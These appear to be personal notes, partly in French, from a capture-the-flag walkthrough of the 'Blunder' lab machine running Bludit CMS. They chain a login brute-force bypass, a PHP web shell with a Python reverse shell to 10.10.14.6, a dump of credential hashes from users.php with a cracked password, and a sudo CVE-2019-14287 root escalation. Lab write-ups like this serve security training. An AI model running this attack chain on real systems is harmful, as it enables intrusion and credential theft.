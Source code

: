 cms : BLUDIT

todo.txt 

-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING

/bl-kernel
/bl-plugins
/bl-content
/admin
```
https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb
```
use the exploit.py to bypass bruteforce protection 
```
python3 exploit2.py 10.10.10.191 fergus customlist.txt
```
use cewl to create a wordlist based on the webpage
```
ruby cewl.rb -w customlist.txt -d 5 http://10.10.10.191
```
SUCCESS: Password found!
Use fergus:RolandDeschain to login.

upload de fichiers 
```
see request_shell.burp
```
ensuite aller /bl-content
```
http://10.10.10.191/bl-content/tmp/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.6%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
```
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
on decode le password (sha1)
```
faca404fd5c0a31cf1897b823c695c85cffeb98d
hashid = sha1
sha1 decrypt: Password120
```

```
sudo -l 
```
User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash

google nous explique
```
https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability
```
```
hugo@blunder:/tmp$ sudo -u#-1 /bin/bash
root@blunder:/tmp#
```
Rooted !
